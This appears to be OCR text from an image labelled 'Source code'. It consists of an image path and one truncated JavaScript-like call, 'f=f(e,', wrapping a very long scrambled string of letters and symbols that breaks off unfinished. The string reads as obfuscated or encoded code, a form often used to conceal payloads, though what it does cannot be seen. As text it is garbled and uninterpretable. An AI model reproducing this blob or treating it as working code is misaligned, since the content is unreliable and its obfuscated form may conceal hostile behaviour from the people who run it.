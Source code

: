 f=f(e,"W2NpT{rO9nR8Z#bxp9pTTbr99NRN8r#zbROOnNRR88#Rb#RuZN#Tbbh9NI{RRL8R#kZ2xnNNxN2#NrTg{RON8Ob8xn2bp9Nbrn9bROR{Z#bTPTN{px{{NbTZrNOZnr2ppNT{O(2npNTZrr95nR8TZbb9gNnrpr{:rR9N#ZaN2ZpNTxpIpx{nR9ZOb8x{28p9TTN9OOn#8{n2##Cr2nxn{8rpORnR88#{b8A#bpxx28p9{NrO9pn88TZxbnJ8NTpx{(r89rRNZ2#Tb828TRT8n/9ZZ9b}bx3bpn{TNn{p9Rn8Zb#9bO6#NxNerN{ORTR=nNZN:_2b2#{TrT9TOR9x88Zp#8AnAxpr{l{#r{9pnnZTJ-Nr2Zp9{NOp9NZT#8ZO2pN82#r9{9nNRrnx#p#N22b9OZ2Zpr{!r9ZNb91N29p{2rN{px9bR##2#8022bNRjb{#9pn8OOZpbZxx#xT2Tnrc9eR288#2xpZnb{g22bp9T#r99nnx8O#{x2uN2#pr{_rZ9ZRO88#2N{T(pbpOnTRNRObp#N1xpp{pTpObrRO9ZnZrxNxx2Rpx{2rTr2O9R2ZZ=Nbrp8TZrrr8RRRZZnxpZ92T2Z{rTb{2O#8{82ZrZnN9=228OR9NRTZ8nbbZbbNTT{NTTxrbRlZNR9#=Zxb9VN2Zpr{.rR9T#b89#rbZ)rN6nZZ#bNb#RNZ{#rxh}RNN99n#88#rbbxx2bp2IbprTN{ZOr9bZRbTNTp#{#rb99Rp82##x9+pNRxZ28p*TRrTxNxn2Tp9T8g4NOpTTbr99YZ{bLb8(2NrpnrX9O9bR{ZT#8#Tx#M9NNpZ{T99Znb2#Z2OpZ{{{pO8nN8N#pb#jp#Z2f2oNRTT{Zn8#Ox2GR.np{T#rpO2RZZT#{xTaON#2Z{OrZ9rR2ZT82xb29pogNNOpr{IrR9Nbjx#XnNrTxrR9Nnp8NZ{RNZR#rx77RNNOpRrnR#nZ#1jfpT2p2{xrpOTR8nX82ZT#bx9O9n889Z{#8xO2rZ9b9xZ2rpeT9Rb8Z#OxR3rbrN22RpTTbrrZMbr/t2rpp2TNpp#9Z8N8#bnjT;xxNT2rOOx{8O8R2ZRb#x{Nhp{pT{Z{b8b#ZxNZNbZxr2gNRTNO9Rr#Zbnx8NRT9p#{Or89OnT8pb9x{bTe929pNTZrTR8bpbx2rNZpn{xO2nnrRRZnb89#NbRp:{bOnn#rTZTb2xb22br{O{89OTb89#Tb8sR2{N#{9rpOZ{NZpZxxT?N#T28{OO29R9n8{Z#RTxTb8x#2rp/TRrTObn9RNv8br6p2RpTTb#8xOxb8O#ebR%T2bp9pN#8ZrRH8x#TbbC9NBOn9#8pZ{RTZN#9xN}ZnR8nZR#n9b8OZN#Zxrr{9Z98RsZO#xxx2n{9rbOpn{8Z8RZ!nr8rZRbTxb2rO9nTR{ZTbT8T2xb9GN2ZT9O#rR9Tnb#{#NbZArNrT9{Trb99#28Z#Ox1hRNTTNR8ON9ZRrbx#Rx{vbN9r8{ZOrnBRRZT#bx92Nr-Trr2ORnTRbZ9bNxZ2Zp3TRrTObn98pZZ+rTR2RpTTbr99N8T8rbNNT(T2xp9{OrZ9rRcZZ#Obb%RNN{n{rO,9RRR2{#9x{}ZNOT7{8OT9xR9ZNx9xr23NRT{{bO9nNRZ2ObkxZ2TpfT9rpOZR982ZRbrxbpTpNTZrrnNn#8T#2b9Bp2Zpr{i9Rnpnb88#NbxjrpnpRrr9T99Rr8ZbNx,%RNT{br{ONnIRrZT#Rjr1bpR{r{ZO8n:R8ZT#bx9pNOrTrr{ORnnRbZZbNjb{bp?{BrTOxn98NZZ,r2Z2RpRTbrb9NR{8r#k?p,TN{p9{NrZ9rRjZZ#Obb2GNNT2{rOk9R8r#R#9x8?ZT}TA{ROTRgRbZNbrxrN9NRTT{bOZRnRZZbb.2R2TNxT9rNZpnr8ZZRbnxb29pNTZnb9FRO8T#nb9}N2ZprrTrRnYnb8R#NbbArNwpZ{TO{99R#8ZbNxjBRN8pb{xONn9RrZ8#Rx9T#N9TR{ZnLnmR8ZT#bc22NpTTrr9ORnTRbZbpnxZ2bpkTRrTOxn989ZZbr2Z2RpTTbrR9NnZ8r#ePrST2bp9{rrZ9rR=8RxFbb19NNTT{rOz9RRT#R#9xN?ZNnTA{ROT9bZTZN#Zxr2ONRTT{bO9RbRZZrbsx82TNbT9rNnTnr8nZRbZxb29pNTZrZ96RT8TZbb9-N2ZprrTrR9#nb8R#NbbwrN5p#{Trb99R88Z#rx0CRpnpb{9ON9bRrZG#RxT2ZN9TN{ZOrn(RRZTbNHR2NNZTr8QORn{Rb#RpOxZ2rp4{xrTObn9#N#Tbr<d2RpTTb9m9NRb#p#*bR3TN9p9{NrZn98T8R#Tbb2#NNpZ{rnC9bRT8b#9xN>ZNbT!rZOO9bR9ZNxRxr2DNRTTrbO9nNRZZOboxR2TTh{DrNOZnr8xZRbTxbNR9OTZrr90R88TZbb9N92xpr{DrR8xnb8n#NIpVrNT9#{Trb99##8Z#Ox?MbOOpb{9ONZ9RrZ2#RxTTZN9TN{ZOOnMRRZTxH>r2NNZTrOTORnTRb#R29xZ2rpB{OrTObn98NbTbrAL2RpOTbr99NRb89#3b8dTNnp9{NrZn98{8R#rbb2pNNpZ{r9N9#RTZ2#9G{qZNrTA{ROx9bR9ZN#xxr22NR{rObO9nNRZ#ZbwxR2TT_rxrNOZnr8rZRbTxbNRpTTZrr9-R98TZbb92TNTpr{:rR98nb89#NxbuRNopR{TO299RN8Zb9ynoRNTpbr9ON9ZRr#NxOxT:xN9{#{ZOrnHZR#n#bxn2NN#TrrNORRrmpZ9b{xZNppUTRrTOb#{8N#